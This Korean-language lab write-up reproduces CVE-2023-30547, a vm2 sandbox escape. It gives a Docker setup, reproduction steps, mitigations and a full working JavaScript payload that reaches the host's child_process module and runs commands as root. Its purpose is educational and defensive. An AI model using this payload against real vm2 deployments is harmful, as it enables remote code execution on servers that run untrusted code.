





# CVE-2023-30547: vm2 Sandbox Escape
> 화이트햇스쿨 4기생 4반 김광진

## 취약점 요약

`vm2`는 신뢰할 수 없는 JavaScript 코드를 격리된 sandbox 안에서 실행하기 위한 Node.js 라이브러리입니다. `vm2` 3.9.16 이하 버전에는 예외 처리 과정에서 host exception이 충분히 정화되지 않는 문제가 있어, 공격자가 sandbox를 탈출하고 host context에서 임의 코드를 실행할 수 있습니다.

- CVE ID: CVE-2023-30547
- 영향 버전: vm2 3.9.16 이하
- 패치 버전: vm2 3.9.17
- 취약 유형: Sandbox Escape, Remote Code Execution
- Risk Score: 9.8 / 10.0
- CVSS v3.1: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## 환경 구성

서버는 `/run` 엔드포인트로 전달받은 JavaScript 코드를 `vm2@3.9.16`에서 실행합니다.

```bash
docker compose up --build
```


서버가 정상 실행 확인하기

```bash
curl http://127.0.0.1:3000/health
```


### Dockerfile 구성

Dockerfile은 Node.js가 미리 설치된 공식 이미지를 사용합니다. `node:18.20.4-bookworm-slim`은 Debian Bookworm 기반의 경량 이미지이며, Node.js 18.20.4와 npm이 포함되어 있습니다.

```dockerfile
FROM node:18.20.4-bookworm-slim

WORKDIR /app

COPY package.json package-lock.json ./
RUN npm ci --omit=dev --no-audit --no-fund

COPY app.js ./

EXPOSE 3000

CMD ["npm", "start"]
```

Ubuntu 같은 일반 OS 이미지를 먼저 사용하고 그 위에 Node.js를 직접 설치하는 방식도 가능합니다. 

Ubuntu 기반으로 작성한다면 다음과 같은 Dockerfile을 사용할 수 있습니다.

```dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update \
    && apt-get install -y curl ca-certificates gnupg \
    && curl -fsSL https://deb.nodesource.com/setup_18.x | bash - \
    && apt-get install -y nodejs \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /app

COPY package.json package-lock.json ./
RUN npm ci --omit=dev --no-audit --no-fund

COPY app.js ./

EXPOSE 3000

CMD ["npm", "start"]
```

## 취약 조건

다음 조건이 모두 만족될 때 취약점이 재현됩니다.

1. 애플리케이션이 `vm2` 3.9.16 이하 버전을 사용합니다.
2. 외부 사용자가 sandbox 안에서 실행될 JavaScript 코드를 제공할 수 있습니다.
3. 애플리케이션이 sandbox 실행 결과를 신뢰하거나, sandbox 탈출 이후 host context 접근을 차단하지 못합니다.

본 실습에서는 위 조건을 재현하기 위해 `/run` API가 요청 본문의 `code` 값을 `vm2`로 실행하도록 구성했습니다.

## 재현 절차

1. 취약 환경을 실행합니다.

```bash
docker compose up --build
```


2. 다른 터미널에서 PoC를 실행합니다.

```bash
python3 poc.py
```


3. 원하는 명령을 인자로 전달해 컨테이너 내부 명령 실행을 확인할 수도 있습니다.

```bash
python3 poc.py "whoami"
python3 poc.py "cat /etc/os-release"
```



4. 실습 종료

```bash
docker compose down
```

## PoC 코드

`poc.py`는 `/run` 엔드포인트로 다음 JavaScript payload를 전송합니다. 이 payload는 `Proxy`의 `getPrototypeOf()` 처리 중 host exception을 유발하고, catch 구문에서 host `Function` 생성자에 접근해 `process.mainModule.require('child_process')`를 호출합니다.

```javascript
let result;
err = {};
const handler = {
  getPrototypeOf(target) {
    (function stack() {
      new Error().stack;
      stack();
    })();
  }
};
const proxiedErr = new Proxy(err, handler);
try {
  throw proxiedErr;
} catch ({constructor: c}) {
  const process = c.constructor('return process')();
  result = process.mainModule
    .require('child_process')
    .execSync('id')
    .toString();
}
result;
```

## 실행 결과

`python3 poc.py` 실행 시 다음과 같이 `id` 명령의 결과가 반환되면 sandbox escape가 성공한 것입니다.

```text
[+] Target: http://127.0.0.1:3000/run
[+] Command: id
[+] HTTP 200
{
  "ok": true,
  "vm2Version": "3.9.16",
  "result": "uid=0(root) gid=0(root) groups=0(root)\n"
}
[+] Sandbox escape succeeded. Command output:
uid=0(root) gid=0(root) groups=0(root)
```

이 결과는 sandbox 내부 코드가 원래 접근할 수 없어야 하는 Node.js host context의 `child_process` 모듈을 호출했음을 의미합니다.

## 대응 방안

1. `vm2`를 3.9.17 이상으로 업데이트합니다.
2. 신뢰할 수 없는 JavaScript 코드를 서버에서 직접 실행하는 구조를 제거합니다.
3. sandbox를 사용해야 한다면 컨테이너 격리, 읽기 전용 파일 시스템, root이외의 사용자, seccomp/AppArmor 등 OS 수준 방어를 함께 적용합니다.
4. `/run`처럼 외부 입력을 코드로 실행하는 API를 운영 환경에 노출하지 않습니다.

## 참고 자료

- [NVD - CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)
- [GitHub Advisory - GHSA-ch3r-j5x3-6q2m](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m)
- [Original PoC by leesh3288](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)
